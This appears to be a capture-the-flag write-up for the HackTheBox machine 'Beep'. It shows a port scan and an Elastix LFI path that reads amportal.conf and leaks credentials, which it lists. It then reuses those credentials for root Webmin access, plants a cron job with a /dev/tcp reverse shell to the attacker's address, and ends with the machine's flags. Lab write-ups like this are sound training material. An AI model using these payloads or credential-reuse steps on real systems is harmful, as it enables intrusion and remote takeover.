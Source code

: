 # Beep
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c0ed88ed-9dbd-460d-b284-b95980734554)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.10.7 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 22:16 PDT
Stats: 0:06:22 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.24% done; ETC: 22:22 (0:00:01 remaining)
Nmap scan report for 10.10.10.7
Host is up (0.023s latency).
Not shown: 65519 closed tcp ports (conn-refused)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 adee5abb6937fb27afb83072a0f96f53 (DSA)
|_  2048 bcc6735913a18a4b550750f6651d6d0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS LOGIN-DELAY(0) AUTH-RESP-CODE APOP EXPIRE(NEVER) RESP-CODES PIPELINING IMPLEMENTATION(Cyrus POP3 server v2) USER TOP UIDL
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: CHILDREN Completed STARTTLS OK NAMESPACE URLAUTHA0001 RENAME QUOTA MULTIAPPEND LIST-SUBSCRIBED IMAP4rev1 BINARY CATENATE LITERAL+ IMAP4 CONDSTORE MAILBOX-REFERRALS NO ACL ID SORT RIGHTS=kxte THREAD=REFERENCES THREAD=ORDEREDSUBJECT SORT=MODSEQ UNSELECT ATOMIC ANNOTATEMORE LISTEXT IDLE UIDPLUS X-NETSCAPE
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_ssl-date: 2023-08-30T05:20:05+00:00; -1s from scanner time.
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry 
|_/
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 399.28 seconds
```

1. Interesting the machine opens many tcp ports, since the machine runs a web application let's run dirbuster.

> RESULT - WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/18f63fec-cbd5-4016-80c5-f3712a82359d)


> RESULT - DIRBUSTER

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/19e25d20-b5ff-40ee-a0ac-af483f77066b)


2. Confused it won't open the web app, to solve this i tried to modify the minimum TLS version. (It's possible that the TLS version of our browser is higher than what the browser supports).

> CHANGING THE TLS MINIMUM VERSION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/f86d50f5-95dc-42c5-b1de-665bd5ba6c7f)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1dc303de-f985-4c51-9848-95bb0678adce)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5f1543a-8483-4ba0-9b73-b4d86711604b)


3. Turns out elastix has many vuln history.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/27776557-8c7d-44e7-8a68-8a015152663e)


4. Since we don't know the elastix version, but things to note here the FreePBX 2.10.0 used with the Elastix 2.2.0 is vulnerable to command injection.
5. But sadly, after opened the `admin` directory, it renders the FreePBX web service, but the version is below 2.10.0.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c63da729-e37b-4029-87fd-4a1aa9ee241c)


6. For port 10000, it opens a webmin login page.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/986d1c1f-4a52-4166-a681-5ed271bba894)


7. Based from the metasploit, the closest one must be the LFI vuln, since we can run directory listing (kinda guessing, never doing this in pentesting 🙏).
8. Reading the exploitdb [documentation](https://www.exploit-db.com/exploits/37637), we can use --> `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` whether the webapp is vulnerable to LFI or not.

> RESULT - It is vulnerable.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9d0d5bee-09e0-4772-ad6c-dc7561b4d706)


9. It exposes many creds for AMPortal and it's not clear which one we need to use for a certain login portal.
10. Here's the creds i got so far:

```
root:jEhdIekWmdjE
admin:Password
admin:amp111
admin:jEhdIekWmdjE
root:passw0rd 
```

> TIME SKIP, FOUND THE CORRECT CREDS FOR /ADMIN -> admin:jEhdIekWmdjE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9761abb4-5c93-4043-83b2-6a8bc4f917af)


> FOR THE WEBMIN --> root:jEhdIekWmdjE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/49e455ca-1b4b-4241-a14e-5ad30711449b)


11. Seems our interest now is in the webmin page, since we're logged in as root, we can scheduled command and cron jobs.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf6a7ed7-430d-4428-bc95-5c72b8a0cc4f)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a75523b6-17ec-450b-a870-d14ea451b2c9)


12. Awesome, we can add our revere shell payload here, I used this template:

```
Set a listener on port 1337.

PAYLOAD:
sh -i >& /dev/tcp/10.10.14.26/1337 0>&1

WHAT TO SEND:
bash -c 'sh -i >& /dev/tcp/10.10.14.26/1337 0>&1'
```

> RESULT - need to wait until 09:45

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2a514f8b-87a5-4320-b44c-49feb42eaede)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ea1d275e-9510-449d-b264-681384d89ac5)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8bec72ab-cda9-4c7e-9717-213f4f494626)


13. Got the shell!

> GETTING USER FLAG AND ROOT FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/750a640b-735f-46aa-a279-6604f9690d56)


## USER FLAG

```
bc89af94b308f47d87fe1552c5506452
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a44b4cd5-873e-4c8a-8e4e-c704f1a8c823)


## ROOT FLAG

```
6688ccf3476b73a96f40e1d5210feed0
```
